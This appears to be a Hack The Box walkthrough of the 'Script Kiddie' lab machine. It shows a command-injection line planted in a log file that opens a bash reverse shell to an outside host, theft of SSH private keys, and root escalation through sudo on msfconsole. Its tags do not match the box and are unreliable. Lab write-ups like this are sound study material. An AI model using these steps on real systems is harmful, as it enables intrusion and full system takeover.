 ```yaml
---
title: (HTB) - Script Kiddie
author:
  name: eng4ge
  link: https://github.com/an9k0r
date: 2022-09-22 11:33:00 +0200
categories: [HackTheBox, Other]
tags: [NetBSD,Bozohttpd,Lua,Default Credentials,Code Injection,NGINX,Password Cracking,Password Reuse,Weak Credentials]
math: true
mermaid: true
image:
  src: /assets/images/1df44abad6a5755b7f9edd7675bbca3622df01287e2eeec05216dca208d4e0bc.png
  width: 694
  height: 515
  alt: image alternative text
---
```

**Script Kiddie is an easy box where we first have to exploit a vulnerable MSFvenom template** 


# ENUMERATION

## NMAP

# EXPLOITATION

![picture 21](images/57b2b3ec41b8f3813882210be6efb5d17a3eac1a39c0e05de1a01439633a8693.png)

Using metasploit

![picture 22](images/8ede237222b9c4ccf385ec9520c8cd4e13ff97bec7a4315f37995f9f585e25c2.png)

```
kid@scriptkiddie:~/html$ id
id
uid=1000(kid) gid=1000(kid) groups=1000(kid)
```

id_rsa private key can be downloaded for ssh

# PRIVILEGE ESCALATION

```
kid@scriptkiddie:/home/pwn$ cat scanlosers.sh
cat scanlosers.sh
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

```
2021/02/07 09:26:01 CMD: UID=0    PID=1257893 | /usr/sbin/CRON -f 
2021/02/07 09:26:01 CMD: UID=0    PID=1257894 | /bin/sh -c find /home/kid/html/static/payloads/ -type f -mmin +5 -delete 
2021/02/07 09:28:01 CMD: UID=0    PID=1257896 | /usr/sbin/CRON -f 
```

```
kid@scriptkiddie:~/logs$ echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.21/9999 0>&1' #" >> hackers
```

![picture 23](images/ec1df5b4861ac839fa1bb9ef1da7c5e237ca15642ad57650b3cdcd4e36f9e792.png)

get .ssh/id_rsa and connect with ssh

```
pwn@scriptkiddie:~$ sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

```
msf6 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

irb: warn: can't alias jobs from irb_jobs.
>> exec '/bin/bash'
root@scriptkiddie:/home/pwn# id
uid=0(root) gid=0(root) groups=0(root)
```

